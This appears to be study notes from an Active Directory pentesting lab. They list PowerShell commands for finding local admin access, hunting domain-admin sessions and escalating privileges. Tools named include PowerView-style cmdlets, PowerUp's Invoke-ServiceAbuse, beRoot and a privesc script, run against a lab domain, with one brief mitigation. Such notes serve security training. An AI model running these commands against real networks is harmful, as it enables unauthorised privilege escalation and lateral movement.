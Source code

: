 # User Hunting

## Find Local Admin Privileges

### Find All Machines on the Current Domain Where the Current User Has Local Admin Access
```powershell
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose
PS C:\AD\Tools> Find-LocalAdminAccess
```

### Check Local Admin Access on a Specific Computer
```powershell
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## WMI and PowerShell Remoting
Useful in cases where ports (RPC and SMB) used by Find-LocalAdminAccess are blocked.

### Find WMI Local Admin Access
```powershell
PS C:\AD\Tools> Find-WMILocalAdminAccess -ComputerFile .\computers.txt
```

## Find Local Admins on All Machines of the Domain
(needs administrator privileges on non-DC machines, including machines not in the domain)

### Invoke Enumerate Local Admin
```powershell
PS C:\AD\Tools> Invoke-EnumerateLocalAdmin
```

# User Hunting (List Session and Logged-on Users)

## Find Machines on a Domain Where a Domain Admin (or Specified User/Group) Has Sessions
### Find Computers Where a Domain Admin Is Logged In
```powershell
PS C:\AD\Tools> Invoke-UserHunter -Verbose
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -Verbose -GroupName "rdpusers"
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -Stealth
```

### Enumerate Sessions on Any Machine
```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

### Enumerate Sessions on High Traffic Servers Only
```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
# Mitigation for Listing Current User Sessions
Using `NetCease.ps1` script can help mitigate many of the attacker's session enumeration and user hunting capabilities.
```
```
# Local and Domain Privilege Escalation

## Invoke-AllChecks Using PowerUp
```powershell
PS C:\AD\Tools> . .\PowerUp.ps1
PS C:\AD\Tools> Invoke-AllChecks
```

## Enumerate Services with Weak Service Permissions
```powershell
PS C:\AD\Tools> Get-ModifiableService
PS C:\AD\Tools> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student157'
```

## Windows Privilege Escalation Cheat Sheet
There are various ways of locally escalating privileges on a Windows box:
- Missing patches
- Automated deployment and AutoLogon passwords in clear text
- AlwaysInstallElevated (Any user can run MSI)
- Misconfigured Services
- DLL Hijacking and more

## Get Services with Unquoted Paths and a Space in Their Name
```powershell
PS C:\AD\Tools> Get-ServiceUnquoted -Verbose
```

## Get Services Where the Current User Can Write to Its Binary Path or Change Arguments to the Binary
```powershell
PS C:\AD\Tools> Get-ModifiableServiceFile -Verbose
```

## Get the Services Whose Configuration Current User Can Modify
```powershell
PS C:\AD\Tools> Get-ModifiableService -Verbose
```

## Execute beRoot Tool
```powershell
PS C:\AD\Tools\beRoot> .\beRoot.exe
```

## Use Privesc Script to Identify Potential Privilege Escalation Vectors
```powershell
PS C:\AD\Tools\Privesc-master\Privesc-master> . .\privesc.ps1
PS C:\AD\Tools\Privesc-master\Privesc-master> Invoke-Privesc
```

